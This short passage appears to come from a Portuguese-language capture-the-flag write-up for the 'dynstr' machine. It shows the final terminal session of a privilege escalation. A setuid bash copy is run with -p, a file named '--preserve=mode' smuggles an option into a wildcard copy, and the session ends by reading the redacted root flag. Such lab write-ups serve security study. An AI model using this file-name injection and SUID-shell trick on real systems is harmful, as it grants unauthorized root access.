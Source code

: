 ```bash
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ /etc/bind/named.bindmgr/bash -p
bash-5.0# ls -la
total 1172
drwx------  2 bindmgr bindmgr    4096 Aug 16 19:10  .
drwxrwxrwt 13 root    root       4096 Aug 16 19:09  ..
-rwsr-xr-x  1 bindmgr bindmgr 1183448 Aug 16 19:10  bash
-rw-rw-r--  1 bindmgr bindmgr       1 Aug 16 19:10 '--preserve=mode'
-rw-rw-r--  1 bindmgr bindmgr       2 Aug 16 19:10  .version
bash-5.0# cd /root
bash-5.0# cat root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês no próximo post :smile:
